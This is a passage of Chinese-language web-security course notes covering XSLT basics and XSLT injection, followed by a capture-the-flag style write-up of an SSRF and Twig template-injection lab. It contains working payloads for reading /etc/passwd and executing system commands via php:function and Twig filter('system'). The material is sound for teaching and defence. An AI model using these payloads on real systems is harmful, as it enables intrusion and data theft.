    <fruit>
        <name>Apple</name>
        <color>Red</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Banana</name>
        <color>Yellow</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Strawberry</name>
        <color>Red</color>
        <size>Small</size>
    </fruit>
</fruits>
```

XSLT 可用于定义一种数据展示格式，之后再将 XML 文档中的数据填充到该格式中完成渲染。XSLT 的结构与 XML 相似，但其节点中会包含以 xsl: 为前缀的 XSL 专用元素。下面列出一些常用的 XSL 元素：

* `<xsl:template>`：此元素表示一个 XSL 模板。它可以包含一个 match 属性，该属性包含模板所应用的 XML 文档中的路径。
* `<xsl:value-of>`：此元素提取 select 属性中指定的 XML 节点的值。
* `<xsl:for-each>`：此元素允许循环遍历 select 属性中指定的所有 XML 节点。

例如，一个简单的 XSLT 文档，用于输出 XML 文档中包含的所有水果及其颜色，可能如下所示：

```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/fruits">
        Here are all the fruits:
        <xsl:for-each select="fruit">
            <xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
        </xsl:for-each>
    </xsl:template>
</xsl:stylesheet>
```

如我们所见，XSLT 文档包含一个 `<xsl:template>`XSL 元素，该元素应用于 XML 文档中的 <fruits> 节点。模板由静态字符串 `Here are all the fruits:` 和一个遍历 XML 文档中所有 <fruit> 节点的循环组成。对于每个节点，使用`<xsl:value-of>`XSL 元素打印 <name> 和 <color> 节点的值。将示例 XML 文档与上述 XSLT 数据结合使用，将得到以下输出：

```txt
Here are all the fruits:
    Apple (Red)
    Banana (Yellow)
    Strawberry (Red)
```

以下是一些可用于进一步缩小范围或自定义 XML 文档中数据的其他 XSL 元素：

`<xsl:sort>`：此元素指定如何对 select 参数中的 for 循环元素进行排序。此外，还可以在 order 参数中指定排序顺序。

`<xsl:if>`：此元素可用于测试节点上的条件。条件在 test 参数中指定。

例如，我们可以使用这些 XSL 元素创建一个中等大小水果的列表，并按颜色降序排列：

```xslt
        xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/fruits">
        Here are all fruits of medium size ordered by their color:
        <xsl:for-each select="fruit">
            <xsl:sort select="color" order="descending" />
            <xsl:if test="size = 'Medium'">
                <xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
            </xsl:if>
        </xsl:for-each>
    </xsl:template>
</xsl:stylesheet>
```

由此得出以下数据：

```txt
Here are all fruits of medium size ordered by their color:
    Banana (Yellow)
    Apple (Red)
```

XSLT 可用于生成任意输出字符串。例如，Web 应用程序可以使用它将 XML 文档中的数据嵌入到 HTML 响应中。

## 2.识别

我们的示例网页应用程序展示了一些学院模块的基本信息：



在页面底部，我们可以提供一个用户名，该用户名将插入到列表顶部的标题中：

正如我们所见，我们提供的名称会反映在页面上。假设 Web 应用程序将模块信息存储在 XML 文档中，并使用 XSLT 处理来显示数据。在这种情况下，如果我们的名称在 XSLT 处理之前未经清理就插入，则可能存在 XSLT 注入漏洞。为了验证这一点，我们尝试注入一个损坏的 XML 标签来触发 Web 应用程序的错误。我们可以通过提供用户名` < `来实现这一点。



正如我们所见，Web 应用程序返回了服务器错误。虽然这并不能完全证实存在 XSLT 注入漏洞，但可能表明存在安全问题。

## 3. 利用XSLT

### 3.1信息披露

我们可以通过注入以下 XSLT 元素来尝试推断正在使用的 XSLT 处理器的一些基本信息：

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

Web 应用程序返回以下响应：

由于该 Web 应用程序解析了我们提供的 XSLT 元素，这证实了存在 XSLT 注入漏洞。此外，我们可以推断该 Web 应用程序似乎依赖于 libxslt 库，并且支持 XSLT 1.0 版本。

### 3.2 本地文件包含 (LFI)

我们可以尝试使用多种不同的函数来读取本地文件。有效载荷是否有效取决于 XSLT 版本和 XSLT 库的配置。例如，XSLT 包含一个 `unparsed-text `函数，可用于读取本地文件：

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

然而，该功能仅在 XSLT 2.0 版本中引入。因此，我们的示例 Web 应用程序不支持此功能，而是返回错误。但是，如果 XSLT 库配置为支持 PHP 函数，我们可以使用以下 XSLT 元素调用 PHP 函数 `file_get_contents `：

```xml

<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />

```

我们的示例 Web 应用程序已配置为支持 PHP 函数。因此，本地文件会显示在响应中：



### 3.3 远程代码执行 (RCE)

如果 XSLT 处理器支持 PHP 函数，我们可以调用一个执行本地系统命令的 PHP 函数来获取远程代码执行 (RCE)。例如，我们可以调用 PHP 函数` system` 来执行一条命令：

```xml
<xsl:value-of select="php:function('system','id')" />
```



## 4. 预防XSLT注入

与本模块讨论的所有注入漏洞类似，XSLT 注入可以通过确保在 XSLT 处理器处理之前不将用户输入插入到 XSL 数据中来防止。但是，如果输出需要反映用户提供的值，则必须在处理之前将用户提供的数据添加到 XSL 文档中。在这种情况下，必须实施适当的清理和输入验证以避免 XSLT 注入漏洞。这可以阻止攻击者注入额外的 XSLT 元素，但具体实现可能取决于输出格式。

例如，如果 XSLT 处理器生成 HTML 响应，在将用户输入插入 XSL 数据之前对其进行 HTML 编码可以防止 XSLT 注入漏洞。由于 HTML 编码会将所有 < 转换为 < 将所有 > 转换为 > 攻击者将无法注入额外的 XSLT 元素，从而防止 XSLT 注入漏洞。

采取额外的加固措施可以减轻潜在的 XSLT 注入漏洞的影响。这些措施包括将 XSLT 处理器作为低权限进程运行、通过禁用 XSLT 中的 PHP 函数来防止使用外部函数，以及保持 XSLT 库的更新。

# 六. 技能评估

美食餐车公司 Flavor Fusion Express 委托你对其新推出的网站进行安全评估。该网站旨在拓展客户群体并简化在线订购流程。虽然网站的目标是提升用户参与度和品牌影响力，但公司尤其关注可能泄露敏感业务数据、订单信息或管理功能的潜在服务器端漏洞。你的任务是评估后端基础设施、配置和服务器逻辑，找出攻击者可能利用的弱点。尝试运用你在本模块中学到的各种技术来识别和利用 Web 应用程序中的漏洞。

## write up

我们第一次打开应用程序时，感觉好像没什么可找的。没有按钮可以操作，没有输入表单，没有任何可以交互的东西。

但是，如果我们拦截 Burp Suite 的流量并重新加载 Web 应用程序，我们会发现一些有趣的东西。发现对 API 的 POST 请求：



我们发现了一个带有参数 api 的 POST 请求，这意味着它正在从一个独立的系统中获取数据。所以，让我们把这个请求发送给 Repeater 来进一步分析。



如果我们把默认端口改成一个随机端口，比如本例中的 3333，就会返回错误。这或许表明我们应该使用 ffuf 来探索其他端口：



```bash
ffuf -w ./ports.txt -u http://83.136.255.230:47603/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ/" -fr "Error"
```



未找到其他端口。

让我们稍微回顾一下，将 api 参数更改为默认值 http://truckapi.htb/ ，然后尝试一些模板引擎注入。由于请求正在发送数据，我们尝试将默认值更改为以下有效负载：

```http
api=http://truckapi.htb/?id%3D${7*7}
```



正如我们所见，测试字符串确实注入到了JSON对象的第二个元素中！我们可以继续沿着图表往下看，发现通过输出下一行字符串中的49，我们已经确认了SSTI注入。

```http
api=http://truckapi.htb/?id%3D{{7*'7'}}
```

沿着绿线往下看，我们看到我们正在处理一个Twig模板。



我们来尝试以下有效载荷：

```bash
api=http://truckapi.htb/?id%3D{{_self}}
```

成功了！不知何故，我们必须去掉 {{ _self }} 空格——URL 编码不起作用。

改进有效载荷以执行 UNIX 命令：

```http
api=http://truckapi.htb/?id%3D{{['id']|filter('system')}}
```



成功了！现在我们只需要找到flag。

如果您尝试改进有效载荷以列出文件，可能会遇到一些问题。前面我提到 URL 编码不起作用。这是因为空格只能用十六进制字符替换，在本例中是 \x20 。

```http
api=http://truckapi.htb/?id%3D{{['cat\x20../../../flag.txt']|filter('system')}}
```


